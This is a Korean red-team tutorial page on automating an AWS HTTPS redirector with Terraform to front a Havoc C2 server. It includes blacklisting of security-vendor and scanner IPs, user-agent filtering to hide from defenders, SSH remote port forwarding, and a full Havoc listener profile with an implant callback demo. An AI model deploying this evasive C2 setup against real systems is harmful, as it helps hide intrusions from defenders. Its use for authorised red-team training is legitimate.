 # HTTPS 리다이렉터 자동화 (AWS)

## 개요

이전 HTTPS 리다이렉터 페이지에서는 수동으로 HTTPS 리다이렉터를 설정했다. 인프라 구축을 자동화 하기 위해서 테라폼을 이용한 Infrastructure as Code (IaC) 를 진행한다.

https://github.com/ChoiSG/RTPSourceCodes/tree/main/iac/https-terraform

위 테라폼 스크립트를 실행하면 AWS에 다음과 같은 인프라를 구축한다.

1. HTTPS 리다이렉터 서버와 다른 레드팀 서버들이 들어갈 VPC, Subnet, Internet Gateway, Routing Table
2. Nginx 설정이 모두 끝난 리다이렉터 서버 EC2 인스턴스
3. 리다이렉터 서버와 관련된 DNS A 레코드

구축되는 리다이렉터 서버는 다음과 같은 설정이 되어 있다.

1. 보안 업체, 위협 인텔리전스 업체, 인터넷 스캐너와 관련되어 있는 IP주소들을 블랙리스트 처리한다.
2. 특정 User Agent 만 화이트리스트 처리한다. curl, python, 스캐너들의 유저 에이전트는 모두 무시한다.
3. C2 서버의 에이전트가 아닌, "나쁜 트래픽"은 모두 `www.notion.so` 로 301 리다이렉션 처리된다.

## 사전 준비

위 테라폼 스크립트를 사용하기 위해서는 다음과 같은 사전 준비를 해야한다.

1. 테라폼을 사용하기 위한 설정 - 이전 페이지 참고 (https://www.레드팀.com/infrastructure/infra-automation/terraform)
2. AWS Route53 로 가서 도메인 등록 후 Zone ID 받아오기&#x20;

<figure><img src="../../.gitbook/assets/https-redirector-terraform-1.PNG" alt=""><figcaption></figcaption></figure>

3. 도메인을 구입한 도메인 레지스트라(Namecheap, GoDaddy, ...)에서 AWS의 네임서버 업데이트&#x20;

<figure><img src="../../.gitbook/assets/https-redirector-terraform-2.PNG" alt=""><figcaption></figcaption></figure>

3. `variables.tf` 를 본인이 원하는 값들로 업데이트

만약 3번에서 사용할 SSH 키가 없다면 다음 명령어로 만들어주자.

```
ssh-keygen -f rsa -b 2048 -f terraformssh -q -N ""
```



사전 준비가 많아보이지만 사실 0번과 4번은 인프라 구축을 하는 사람이라면 이미 다 준비되어 있는 부분이다. 따라서 사실상 사전 준비는 1) AWS Route53 호스팅 영역 생성 + Zone ID 받아오기 + 네임서버 업데이트 2) variables.tf 업데이트 밖에 없다.

## 실습

테라폼 스크립트를 실행해보면 다음과 같은 출력이 나온다.

```
└─# terraform init
└─# terraform plan
└─# terraform apply

[ . . . ]

Apply complete! Resources: 10 added, 0 changed, 0 destroyed.

Outputs:

outputs = <<EOT
  
  << HTTP Redirector Created >> 

  [+] VPC created           = vpc-080595e6981db6853
  [+] Subnet created        = subnet-0670c640e73a5d76b
  [+] HTTP Redirector DNS   = blog.grootbaon.com 
  [+] HTTP Redirector IP    = 54.198.134.47
  [+] SSL Fullchain.pem     = ./fullchain.pem
  [+] SSL privkey.pem       = ./privkey.pem
  [+] Allowlist User Agent  = Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
  [+] Allowlist IP          = <REDACTED>/32

  [+] Run the following SSH command for SSH Remote Port Forwarding: 
    
    ssh -i ./groot-redteam ubuntu@blog.grootbaon.com -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -R 2222:127.0.0.1:443
```

생성된 VPC, 서브넷, DNS 레코드, 아이피주소, TLS/SSL 인증서 파일 이름, 그리고 리다이렉팅을 위한 SSH Remote Port Forwarding 명령어까지 자동으로 나온다.

먼저 SSH 리모트 포트 포워딩을 진행한다.

```
ssh -i <ssh-priv-key> ubuntu@<redirector> -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -R 2222:127.0.0.1:443
```

사용할 C2 프레임워크에서 테라폼이 생성한 TLS/SSL 인증서 파일을 지정해준다. 다음의 예시는 Havoc Framework 의 `havoc.yaotl` 가변적 C2 프로필 파일을 변형한 것이다.

* 맨 아래의 `Cert` 블럭을 보면 테라폼이 생성한 `fullchain.pem` 과 `privkey.pem` 파일을 설정했다.
* `Hosts` 는 리다이렉터 서버의 DNS FQDN (`blog.grootbaon.com`)를 사용했다.
* `HostBind` 는 SSH Remote Port Forwarding을 하기 때문에 꼭 `0.0.0.0` 으로 지정한다.
* `UserAgent` 는 테라폼의 `variables.tf` 에 있는 화이트리스트 된 유저 에이전트를 사용했다.

<details>

<summary>havoc.yaotl</summary>

```
Teamserver {
	Host = "0.0.0.0"
	Port = 40056

	Build {
	    Compiler64 = "data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
	    Nasm = "/usr/bin/nasm"
	}
}

Operators {
	user "choi" {
		Password = "password1234"
	}
}

# this is optional. if you dont use it you can remove it.
Service {
    Endpoint = "service-endpoint"
    Password = "service-password"
}

Demon {
    Sleep = 2
    Jitter = 15

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\notepad.exe"
        Spawn32 = "C:\\Windows\\SysWOW64\\notepad.exe"
    }
}

Listeners {
    Http {
        Name         = "HTTPS Listener"
        Hosts        = ["blog.grootbaon.com"]
        HostBind     = "0.0.0.0"
        HostRotation = "round-robin"
        PortBind     = 443
        PortConn     = 443
        Secure       = true
        UserAgent    = "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"
        Uris         = [
            "/redteamplaybook.gif",
            "/index.php",
            "/grootsecurity.txt",
            "/index.js"
        ]
        Headers      = [
            "X-RTP-Version: Prod",
            "X-HTTP-Client: true",
        ]

        Response {
            Headers  = [
                "Content-type: text/plain",
                "X-Powered-By: ASP.NET",
            ]
        }

        Cert {
            Cert = "/root/youtube/grootredteam/fullchain.pem"
            Key = "/root/youtube/grootredteam/privkey.pem"
        }
    }
}
```

</details>



팀서버를 생성한 뒤 Attack > Payload로 가 에이전트를 만들고, 실행하면 다음과 같은 콜백이 이뤄진다. DNS 요청으로 리다이렉터 서버의 IP 주소를 알아낸 뒤, 그 서버로 HTTPS 트래픽을 보낸다.&#x20;

<figure><img src="../../.gitbook/assets/https-redirector-terraform-3.PNG" alt=""><figcaption></figcaption></figure>

그리고 성공적으로 리다이렉터 서버를 거쳐서 콜백이 된 것을 볼 수 있다.

<figure><img src="../../.gitbook/assets/https-redirector-terraform-4.PNG" alt=""><figcaption></figcaption></figure>

블루팀의 입장에서 해당 서버를 방문해보자. 화이트리스트 되지 않은 일반적인 curl, python, 인터넷 브라우저로 해당 리다이렉터 서버를 방문하면 다른 웹사이트로 301 리다이렉팅 되는 것을 볼 수 있다.

```
└─# curl https://blog.grootbaon.com 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

하지만 화이트리스트 된 유저 에이전트로 방문하면 제대로된 컨텐츠를 출력한다. 물론, 이중에서도 또 하복 프레임워크와 통신이 이어지려면 다양한 암호화키를 알아내야 할 것이고, 이는 매우 어렵다.

```
└─# curl -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36' https://blog.grootbaon.com

<!DOCTYPE html>
<html>
[ . . . ] 
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

## 마치며

수동으로 인프라를 구축하는 것보다 훨씬 더 간편하고 작전보안적으로도 안전한 테라폼 스크립트를 만들어봤다. 이번 테라폼은 HTTPS 리다이렉터 1개만 설치하는 아주 간단한 스크립트지만, 추후 SMTP 서버나 페이로드 다운로드 서버 등까지 합쳐서 전반적인 레드팀 인프라를 Infrastructure as Code 로만 만들어낼 수 있을 것이다.
